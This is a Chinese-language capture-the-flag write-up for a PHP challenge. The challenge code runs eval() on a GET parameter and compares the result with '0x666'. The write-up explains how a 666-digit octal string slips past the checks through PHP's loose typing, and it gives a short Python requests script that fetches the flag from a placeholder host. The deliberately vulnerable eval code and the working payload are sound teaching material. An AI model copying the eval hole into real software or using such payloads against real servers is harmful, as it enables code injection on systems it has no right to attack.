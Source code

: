 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们可以直接看到php主要逻辑代码：

```php
<?php
error_reporting(0);
require_once('flag.php');
if(!isset($_GET['sss'])){
    show_source('challenge19.php');
    die();
}
$sss=$_GET['sss'];
if(strlen($sss)==666){
    if(!preg_match("/[^0-6]/",$sss)){
        eval('$sss='.$sss.';');
        if($sss!=='0x666'){
            if($sss=='0x666'){
                echo $flag;
            }
        }
    }
}
?>
```

3.由条件：
1. `$sss !== '0x666'`
2. `$sss == '0x666'`
   可知 `$sss `的值需要等于数值 0x666，而又不能等于字符串 '0x666'，其中涉及PHP的弱类型比较
3. `if(!preg_match("/[^0-6]/",$sss))`    ` $sss `只能包含 0--6 的数字
4. `if(strlen($sss)==666)`     `$sss` 的长度等于 666

4.通过分析可知我们需要创建一个长度为 666 ,只包含0 -- 6的数字，数值上等于 0x666且不等于字符串 '0x666'的参数，所以我们用八进制就可以搞定了，创建 $sss = '00...03146'即可

5.直接编写脚本获取flag：

```python
import requests

url = 'http://IP:PORT/challenge19.php?sss='+'0'*662+'3146'
html = requests.get(url)
print(html.content)
```

![](files_for_writeup/2.png)

